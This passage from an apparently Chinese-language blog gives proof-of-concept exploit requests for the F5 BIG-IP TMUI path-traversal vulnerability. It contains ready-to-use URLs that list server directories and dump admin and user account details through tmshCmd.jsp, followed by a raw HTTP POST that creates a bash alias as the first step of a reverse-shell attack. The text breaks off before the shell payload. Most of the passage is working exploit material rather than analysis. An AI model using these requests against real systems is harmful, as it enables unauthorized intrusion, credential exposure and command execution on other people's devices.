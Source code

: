 

### 任意列出目录



```
https://xx.xx.xx.xx/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/
```




![](https://img-blog.csdnimg.cn/20200708143554319.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **命令执行POC**



注：这个命令执行只是执行f5的命令，而不是服务器的系统命令



```
#查看admin用户的信息      
https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin       
#查看所有用户的信息      
https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user
```




![](https://img-blog.csdnimg.cn/20200707141355118.png)



### **上次sh文件并执行反弹shell**



**一：创建**



```
POST /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp HTTP/1.1      
Host: xx.xx.xx.xx      
Connection: close      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9      
Sec-Fetch-Site: same-origin      
Sec-Fetch-Mode: navigate      
Sec-Fetch-Dest: document      1
Referer: https://xx.xx.xx.xx/      1
Accept-Encoding: gzip, deflate      1
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      1
Content-Type: application/x-www-form-urlencoded      1
Content-Length: 50       1
command=create+cli+alias+private+list+command+bash
```
